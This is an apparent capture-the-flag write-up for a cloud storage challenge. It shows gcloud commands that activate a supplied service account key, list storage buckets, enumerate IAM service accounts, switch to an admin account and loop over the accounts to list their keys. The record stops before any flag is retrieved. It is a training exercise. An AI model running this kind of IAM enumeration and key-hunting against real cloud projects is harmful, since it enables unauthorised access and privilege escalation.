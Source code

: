 
# Cloud Storage [Misc]

 150

Have you heard about this "cloud" thing that everyone is using? I think we can save a bunch of money by putting our cat photos there!

I have provided a service account key that you can use to authenticate and check that you can access the photos.

That service account shouldn't have access to anything other than the cat pictures, but this whole "eye aye em" thing is a bit confusing, so I'm not entirely sure!

We can't afford to have another data breach, so we need to be confident that our flags are secure before we make the switch.

## Solve


```
gcloud auth activate-service-account --key-file=lateral-replica-423406-n3-f892e5bfb33b.json
Activated service account credentials for: [user-service-account@lateral-replica-423406-n3.iam.gserviceaccount.com]
```

```
 gcloud auth list
                            Credentialed Accounts
ACTIVE  ACCOUNT
*       user-service-account@lateral-replica-423406-n3.iam.gserviceaccount.com

To set the active account, run:
    $ gcloud config set account `ACCOUNT`
```


```
 gcloud config set account user-service-account@lateral-replica-423406-n3.iam.gserviceaccount.com
Updated property [core/account].
```

```
 gcloud config set project lateral-replica-423406-n3
WARNING: [user-service-account@lateral-replica-423406-n3.iam.gserviceaccount.com] does not have permission to access projects instance [lateral-replica-423406-n3] (or it may not exist): Cloud Resource Manager API has not been used in project 726740957047 before or it is disabled. Enable it by visiting https://console.developers.google.com/apis/api/cloudresourcemanager.googleapis.com/overview?project=726740957047 then retry. If you enabled this API recently, wait a few minutes for the action to propagate to our systems and retry. This command is authenticated as user-service-account@lateral-replica-423406-n3.iam.gserviceaccount.com which is the active account specified by the [core/account] property.
- '@type': type.googleapis.com/google.rpc.Help
  links:
  - description: Google developers console API activation
    url: https://console.developers.google.com/apis/api/cloudresourcemanager.googleapis.com/overview?project=726740957047
- '@type': type.googleapis.com/google.rpc.ErrorInfo
  domain: googleapis.com
  metadata:
    consumer: projects/726740957047
    service: cloudresourcemanager.googleapis.com
  reason: SERVICE_DISABLED
Are you sure you wish to set property [core/project] to lateral-replica-423406-n3?

Do you want to continue (Y/n)?  y

Updated property [core/project].
```

```
 gcloud storage ls
gs://uscg-2024-bgr-cat-pictures/
gs://uscg-2024-bgr-flags/
```

```
 gcloud storage ls --recursive gs://uscg-2024-bgr-flags
gs://uscg-2024-bgr-flags/:
gs://uscg-2024-bgr-flags/flag.txt
```

- error al acceder, no se tienen permisos
```
gcloud storage cp gs://uscg-2024-bgr-flags/flag.txt 
gcloud storage cat gs://uscg-2024-bgr-flags/flag.txt
```

```
gcloud iam service-accounts list
DISPLAY NAME           EMAIL                                                                    DISABLED
admin-service-account  admin-service-account@lateral-replica-423406-n3.iam.gserviceaccount.com  False
user-service-account   user-service-account@lateral-replica-423406-n3.iam.gserviceaccount.com   False
```

```
gcloud config set account admin-service-account@lateral-replica-423406-n3.iam.gserviceaccount.com
Updated property [core/account].
```

Try
```
for i in $(gcloud iam service-accounts list --format="table[no-heading](email)"); do
    echo "Looking for keys for $i:"
    gcloud iam service-accounts keys list --iam-account $i
done
```

